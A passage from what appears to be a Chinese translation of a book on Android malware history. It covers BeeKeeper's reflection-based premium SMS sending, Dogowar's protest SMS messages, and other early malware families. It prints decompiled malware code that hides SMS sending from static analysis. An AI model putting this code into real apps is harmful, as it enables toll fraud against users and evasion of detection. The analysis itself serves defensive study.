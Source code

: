 列表 2-5 展示了 BeeKeeper 如何使用反射动态解析 Android API 方法`SmsManager.sendTextMessage`，然后利用该方法发送短信。

```
public static boolean sendSms(String number, String text) {
  boolean v5_0 = true;
  try {
    Class v3_0 = Class.forName("android.telephony.SmsManager");
    Object v4_0 = v3_0.getMethod("getDefault",
      new Class[0]).invoke(0, new Object[0]);
    Class[] v8_5 = new Class[5];
    v8_5[0] = Class.forName("java.lang.String");
    v8_5[1] = Class.forName("java.lang.String");
    v8_5[2] = Class.forName("java.lang.String");
    v8_5[3] = Class.forName("android.app.PendingIntent");
    v8_5[4] = Class.forName("android.app.PendingIntent");
    reflect.Method v2_0 = v3_0.getMethod("sendTextMessage", v8_5);
    Object[] v7_5 = new Object[5];
    v7_5[0] = number;
    v7_5[1] = 0;
    v7_5[2] = text;
    v7_5[3] = 0;
    v7_5[4] = 0;
    v2_0.invoke(v4_0, v7_5);
  } catch (Exception v0_0) {
    v0_0.printStackTrace();
    v5_0 = false;
  }
  return v5_0;
}
```

*列表 2-5：应用* com.qiwi.application *(v4, 37f3)伪装成数字钱包服务 Qiwi，并使用反射来隐藏静态分析。*

首先，恶意软件创建了一个 Android `SmsManager` 类的对象，该对象具备发送短信的能力。然后，它查找带有五个 `String` 和 `PendingIntent` 参数的 `sendTextMessage` 方法。最后，它调用 `sendTextMessage` API，将费用较高的短信发送到指定的电话号码。

直到今天，反射仍然是规避恶意软件分析和检测的常用技术之一。通常，基于反射的混淆不像 BeeKeeper 的情况那样容易理解，因为现代 Android 恶意软件通常会加密和混淆传递给反射 API 的字符串参数。一些恶意软件分析工具无法处理这种加密与反射相结合的情况，因此无法有效分析现代 Android 恶意软件。

在一些极端情况下，传递给反射 API 的参数根本不会出现在代码中。我们曾看到这些参数从应用的资产文件或甚至是互联网加载。

#### ***Dogowar***

转到轻松一点的内容，接下来我们将介绍一个并非为了盈利而创建的 Android 恶意软件样本。Android.Dogowar，首次由美国安全公司 Symantec 在 2011 年 8 月的博客文章《动物权利抗议者通过移动手段传达信息》中描述，修改了一款合法但具有争议的游戏 *Dog Wars*，并添加了两个功能。首先，它向设备联系人列表中的所有联系人发送了短信：“我喜欢伤害小动物，只是想让你知道这一点。”其次，它向收费号码 73822 发送了一条短信，订阅了一个由“美国动物保护协会”（PETA）提供的关于动物福利的新闻服务。显然，恶意软件开发者对这款模拟狗斗游戏和所有参与其中的玩家感到不满。

#### ***其他早期的 Android 恶意软件***

其他早期在 Google Play 上发现的恶意软件示例包括 Plankton、DroidKungFu、ggTracker、DroidDream Light 和 Gingermaster。由于安全研究人员已对这些恶意软件进行了详尽的描述，因此我们在此不再赘述。你可以通过快速的网络搜索找到更多相关信息。

早期的 sideloaded 和预装恶意软件的重建更为困难。那时，Android 安全团队和外部安全研究人员主要关注 Google Play，因此描述其他恶意软件的 2011 年和 2012 年的数据零星且难以获取。安全团队会保留所有 Google Play 应用的历史日志，但对于 sideloaded 应用则没有此类日志。根据我们掌握的有限数据，我们认为 DroidDream Light，一款没有包含任何特权提升漏洞的 DroidDream 间谍软件变种，可能是 2011 年最常被 sideload 的恶意软件。2012 年，RuFraud 这一针对俄罗斯的付费短信诈骗恶意软件家族，可能是最流行的 sideloaded 恶意软件。

